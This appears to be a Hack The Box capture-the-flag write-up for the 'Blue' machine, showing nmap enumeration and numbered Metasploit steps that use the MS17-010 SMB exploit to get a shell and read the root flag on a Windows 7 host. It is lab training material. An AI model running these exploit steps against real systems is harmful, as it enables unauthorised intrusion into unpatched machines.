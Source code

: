 ## Synopsis


## :scroll: TL:DR :scroll:
Get **Privilege Escalation** on a **windows 7 Porfessional 7601 Service Pack 1 computer**.
Therfore find exploit `ms17-010` and run it. 
Take control over the windows computer and find user- en rootflag.
 
## :rocket: Getting started :rocket:
We add the `domain` and `ip` to `/etc/hosts` .
After we spawn a machine we get an ip adress.
![ip](../img/blue_ip.png)
	This ip adress we can add to our `/etc/hosts` file:
```sh
echo "10.129.231.168 blue.htb" | sudo tee -a /etc/hosts
```
## Enumeration
As we start with a `nmap` scan 
```sh
nmap -sV -sC -oA blue blue.htb
```

![port 445 scan](../img/blue_port_445.png)



```sh
nmap --script smb-vuln-ms17-010 -p445 blue.htb
```
![nmap vulnerability scan](../img/blue_nmap_ms17-010.png)
it revails a vulnerability called `ms17-010` in Microsoft `SMBv1` accorring to **CVE-2017-0143**. 
### msfconsole
With `msfconsole` we can search for an exploit.


## Expliotation


1. type `msfconsole` to start metasploit;
2. `search ms17-010`;
3. `use 0`;
4. `show options` gives the options for configuration;
5. `set RHOSTS blue.htb`
6. `set LHOSTS 10.10....`
7. `expliot`
8. `shell`
9. `whoami`
10. `cd \Users\Administrator\Desktop`
11. `type root.txt`

## :old_key:NOTES:old_key:

### :mortar_board: Lessons learned :mortar_board:
1. How to use `msfconsole`;
2. How to explicit scan with `nmap` for a vulnerability scan;
3. Windows does not support linux syntax :nerd:
